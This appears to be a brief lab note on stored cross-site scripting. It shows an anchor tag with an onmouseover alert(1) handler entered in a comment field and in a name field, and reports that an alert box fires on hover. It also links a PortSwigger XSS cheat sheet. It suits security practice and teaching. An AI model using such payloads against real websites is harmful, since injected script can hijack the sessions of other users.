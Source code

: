 # Cross Site Scripting (XSS) – Stored

## Input
Name: abc
Comment: `<a onmouseover="alert(1)">test</a>`
Output: When hover of the test comment, alert 1 pop up

Name: `<a onmouseover="alert(1)">test</a>`
Comment: abc
Output: When hover of `test` user, alert 1 pop up

## References
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XSS/XSS-Cheat-Sheet-PortSwigger.txt